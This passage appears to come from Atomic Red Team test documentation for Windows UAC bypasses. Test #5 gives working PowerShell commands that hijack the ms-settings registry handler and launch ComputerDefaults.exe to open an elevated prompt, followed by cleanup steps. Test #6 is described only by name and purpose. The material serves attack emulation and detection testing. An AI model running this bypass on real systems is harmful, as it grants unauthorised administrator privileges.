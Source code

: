 ## Atomic Test #5 - Bypass UAC using ComputerDefaults (PowerShell)
PowerShell code to bypass User Account Control using ComputerDefaults.exe on Windows 10
Upon execution administrative command prompt should open

**Supported Platforms:** Windows


**auto_generated_guid:** 3c51abf2-44bf-42d8-9111-dc96ff66750f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #6 - Bypass UAC by Mocking Trusted Directories
Creates a fake "trusted directory" and copies a binary to bypass UAC. The UAC bypass may not work on fully patched systems
Upon execution the directory structure should exist if the system is patched, if unpatched Microsoft Management Console should launch

**Supported Platforms:** Windows


**auto_generated_guid:** f7a35090-6f7f-4f64-bb47-d657bf5b10c1




